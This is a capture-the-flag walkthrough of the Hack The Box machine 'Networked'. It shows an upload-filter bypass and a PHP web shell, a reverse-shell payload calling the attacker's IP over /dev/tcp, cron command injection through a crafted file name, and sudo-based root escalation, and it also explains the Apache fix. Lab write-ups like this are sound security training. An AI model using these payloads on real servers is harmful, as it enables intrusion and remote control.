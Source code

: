 # Networked

### Machine Info

![](screenshots/networked.png)

#### Nmap
![](screenshots/nmap.png)


##### HTTP (Port 80)

Index Page:
![](screenshots/index.png)

![](screenshots/index_source.png)
From the source code, we can check that `upload and gallery not yet linked` line is commented out. I think there should be `upload` and `gallery` pages somewhere in the server.


###### Gobuster
![](screenshots/gobuster.png)



`/backup`:

I downloaded `backup.tar` to check what it is:
![](screenshots/backup.png)

`backup.tar`:
![](screenshots/backup.tar.png)

I checked the `index.php` and it is just same as web application `index.php`. Let's just check if `upload.php, photos.php and lib.php` are exist in web server.

`/photos.php`:
![](screenshots/photos.png)

`/upload.php`:
![](screenshots/upload.png)

Let's check if `photos.php` lists change when we upload new image.

I just create empty `test.jpg` and tried to upload:
![](screenshots/upload_fail.png)

I added file magic bytes, `\xff\xd8\xff\xe9` to `test.jpg` and tested based on `upload.php` and `lib.php` to check out how it detects file type:  
![](screenshots/php_test.png)

After I added magic bytes, it seems like it is working fine.

Try again to upload file:
![](screenshots/upload_succ.png)

It worked and I can check updated list from `photos.php`:
![](screenshots/photos_update.png)



#### Exploit

Create malicious image file and upload:
```
❯ cat shell.php.png
GIF89a; <?php system($_GET['cmd']); ?>
```
`cmd=whoami`:
![](screenshots/web_whoami.png)

We have checked that it is working, so I will create new one for reverse shell:
```
❯ cat shell.php.png
GIF89a; <?php system('bash -c "bash -i >& /dev/tcp/10.10.14.37/1234 0>&1"'); ?>
```

`nc` listener on attacking side:
![](screenshots/low_shell.png)

###### PHP Misconfiguration (After root)
After I rooted this machine, I read some write-ups and this was possible due to PHP Misconfiguration.

```
[root@networked ~]# cat /etc/httpd/conf.d/php.conf
AddHandler php5-script .php
AddType text/html .php
DirectoryIndex index.php
php_value session.save_handler "files"
php_value session.save_path    "/var/lib/php/session"
```
The configuration file does not says that files need to be end with `.php` extension to be executed. Therefore when it was executed even `.php` was in the middle of the file name. To fix this issue:
```
<FilesMatch ".php$">
    AddHandler php5-script .php
    AddType text/html .php
</FilesMatch>
DirectoryIndex index.php
php_value session.save_handler "files"
php_value session.save_path    "/var/lib/php/session"
```

#### Privilege Escalation

From the home directory of user `guly` I found 2 interesting files:

`crontab.guly`:
![](screenshots/crontab.png)
The script `check_attack.php` executes every 3 minutes.

`check_attack.php`:
![](screenshots/crontab_php.png)
The vulnerable point of this script is that `exec()` command in `php` does not check input value. Therefore in the line `exec('nohup /bin/rm -f $path$value')`, if we create file with name like `;whoami`, the script will execute command `whoami`.

##### apache to Guly

Create file with malicious file name:
![](screenshots/cron_exploit.png)

And just wait for 3 minutes:
![](screenshots/user_shell.png)


##### User Guly to root

Check for `sudo` privilge:
![](screenshots/sudo.png)

User `guly` can run `changename.sh` command with root privilege.

`changename.sh`:
![](screenshots/changename.png)

The script write user input value for variables to `network-scripts/ifcfg-guly`. I searched for this kind of script and found two links about vulnerability :</br>
[]()https://bugzilla.redhat.com/show_bug.cgi?id=1697473</br>
[]()https://seclists.org/fulldisclosure/2019/Apr/24

So anything after a space in a value in a network script after the variable, it will be executed as a command. Interesting point is the `regexp` in the script allows space which means we can execute anything we want.

![](screenshots/root_shell.png)

And you can get `root.txt` :)
